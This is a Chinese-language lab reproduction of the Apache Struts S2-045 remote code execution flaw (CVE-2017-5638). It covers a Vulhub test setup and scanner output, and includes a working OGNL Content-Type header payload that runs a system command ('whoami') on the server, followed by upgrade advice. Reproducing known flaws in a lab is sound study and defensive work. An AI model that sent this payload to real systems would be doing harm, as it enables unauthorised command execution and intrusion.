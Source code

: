 # S2-045 Remote Code Execution Vulnerablity（CVE-2017-5638）

| 说明     | 内容                                                         |
| -------- | ------------------------------------------------------------ |
| 漏洞编号 | CVE-2017-5638                                                |
| 漏洞名称 | S2-045 远程代码执行漏洞                                      |
| 漏洞评级 | 高危                                                         |
| 影响范围 | Struts 2.3.5 - Struts 2.3.31<br>Struts 2.5 - Struts 2.5.10   |
| 漏洞描述 | 在使用基于Jakarta插件的文件上传功能时，有可能存在远程命令执行，导致系统被黑客入侵，恶意用户可在上传文件时通过修改HTTP请求头中的Content-Type值来触发该漏洞，进而执行系统命令 |
| 修复方案 | 打补丁<br >上设备<br>升级组件                                |



### 1.1、漏洞描述

  Apache官方发布Struts 2 紧急漏洞公告（S2-045），CVE编号CVE-2017-5638。公告中披露 ，当基于Jakarta插件上传文件时，可导致远程代码执行。例如在系统中获得管理员权限，执行添加用户。可任意查看、修改或删除文件。造成机密数据泄露，重要信息遭到篡改等重大危害。

### 1.2、漏洞等级

高危

### 1.3、影响版本

Struts 2.3.5 - Struts 2.3.31,

Struts 2.5 - Struts 2.5.10

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/struts2/s2-045

---

启动测试环境：

```bash
sudo docker-compose up -d
```

容器运行后，访问`http://your-ip:8080`，可以看到上传页面的示例

![image-20230905192258463](./imgs/image-20230905192258463.png)

#### 2、漏洞扫描

#### nacs

```bash
┌──(kali㉿kali)-[~/tools/nacs/0.0.3]
└─$ sudo ./nacs -h 192.168.80.141 -pa 8080
[sudo] password for kali: 
 _  _     ___     ___     ___   
| \| |   /   \   / __|   / __|  
| .  |   | - |  | (__    \__ \
|_|\_|   |_|_|   \___|   |___/  
             Version: 0.0.3
[07:25:16] [INFO] Start to probe alive machines
[07:25:16] [*] Target 192.168.80.141 is alive
[07:25:16] [INFO] There are total of 1 hosts, and 1 are surviving
[07:25:16] [WARNING] Too few surviving hosts
[07:25:16] [INFO] Start to discover the ports
[07:25:16] [*] [TCP/SSH] ssh://192.168.80.141:22 [SSH-2.0-OpenSSH_9.2p1\x20Debian-2]
[07:25:18] [*] [TCP/HTTP] [200] [Apache-Struts2] [JAVA] [Jetty] [JSP] http://192.168.80.141:8080 [Struts2 Showcase - Fileupload sample]                                                                                                                           
[07:25:18] [INFO] A total of 2 targets, the rule base hits 2 targets
[07:25:18] [INFO] Start to send pocs to web services (xray type)
[07:25:19] [INFO] Load 397 xray poc(s) 
[07:25:21] [+] http://192.168.80.141:8080 poc-yaml-struts2_045 poc1
[07:26:28] [INFO] Start to process nonweb services
[07:26:28] [INFO] [protocol] ssh 192.168.80.141
[07:28:55] [INFO] Task finish, consumption of time: 3m39.252863901s
```

![image-20230905193306823](./imgs/image-20230905193306823.png)



#### 3、漏洞验证

通过以下请求验证漏洞：

```bash
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)}.multipart/form-data
```



![image-20230905194110168](./imgs/image-20230905194110168.png)

`233*233`已成功执行

```bash
Content-Type:  %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

![image-20230905194348752](./imgs/image-20230905194348752.png)

![image-20230905194433867](./imgs/image-20230905194433867.png)

### 1.5、修复建议

 如果你正在使用基于Jakarta的文件上传Multipart解析器，请升级到Apache Struts 2.3.32或2.5.10.1版；或者也可以切 换到不同的实现文件上传Multipart解析器。